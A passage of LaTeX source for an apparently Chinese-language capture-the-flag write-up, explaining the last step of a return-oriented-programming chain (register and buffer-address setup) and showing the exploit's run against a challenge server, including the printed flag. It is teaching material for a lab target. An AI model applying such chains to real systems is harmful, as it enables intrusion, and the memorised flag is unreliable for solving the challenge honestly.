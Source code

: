 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
所以收到的資料（標頭）必須落在 \texttt{rsp+0x10}：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
RESP = (A3 + 0x50) + 0x10 = A3 + 0x60
\end{Verbatim}

而且 \texttt{0x401fda} 的第一道指令是 \texttt{mov\ \allowbreak{}rsi,\allowbreak{}rbx}，它是拿
\textbf{\texttt{rbx}} 當 \texttt{read} 的目的位址， 所以我們也要在鏈裡把
\texttt{rbx} 設成 \texttt{RESP} ------ 這就是上面
\texttt{d3{[}0x40:\allowbreak{}0x48{]}\ \allowbreak{}=\ \allowbreak{}p64(RESP)} 的用途 （\texttt{pop\ \allowbreak{}rbx} 讀
\texttt{{[}A3+0x40{]}}）。兩者必須一致：\texttt{rbx\ \allowbreak{}==\ \allowbreak{}rsp+0x10\ \allowbreak{}==\ \allowbreak{}A3+0x60}。

\begin{quote}
※注意 我們是\textbf{跳到 \texttt{0x401fda}（\texttt{RELAY} 的中段）}，
所以 \texttt{RELAY} 開頭那條 \texttt{0x401fb9:\allowbreak{}\ \allowbreak{}lea\ \allowbreak{}rbx,{[}rsp+0x10{]}}
\textbf{不會執行}， \texttt{rbx}
完全是我們自己設的。位址算對、\texttt{rbx} 設對，兩件事缺一不可。
\end{quote}

\texttt{read(3,\allowbreak{}\ \allowbreak{}RESP,\allowbreak{}\ \allowbreak{}0x100)} 收到標頭 +
flag，接著解密、檢查（\texttt{op==0}、
\texttt{len\ \allowbreak{}\textless{}\allowbreak{}=\ \allowbreak{}收到長度-\allowbreak{}4}）、然後
\texttt{write(1,\allowbreak{}\ \allowbreak{}payload,\allowbreak{}\ \allowbreak{}len)} ------ \textbf{flag 就印出來了。}

\begin{quote}
※提示 exploit 最後用的 \texttt{io.\allowbreak{}recvall(timeout=3)} 意思是「一直收到 3
秒內沒有新資料為止」， 用來把 \texttt{OK\textbackslash{}\allowbreak{}n} + flag
一次收乾淨，不需要知道確切長度。 （相對地，前面洩漏 key 時長度確定是 6
bytes，所以用 \texttt{io.\allowbreak{}recvn(6)}。）
\end{quote}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{8. 執行結果}\label{ux57f7ux884cux7d50ux679c}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py REMOTE
[+] Opening connection to chal.sunshinectf.games on port 26007: Done
[*] stage2 pre=b'OK\n' leak=1cf20c050000 A2=0x40a228
[+] XOR key = 1cf20c05
[*] stage3 d2ok=b'OK\n' A3=0x40a2e0 RESP=0x40a340
[+] raw  : b'OK\nsun{n3gat1ve_h4ndl3s_0pen_s3cret_d00rs}\n\n'

[+] FLAG: sun{n3gat1ve_h4ndl3s_0pen_s3cret_d00rs}
\end{Verbatim}
\end{document}
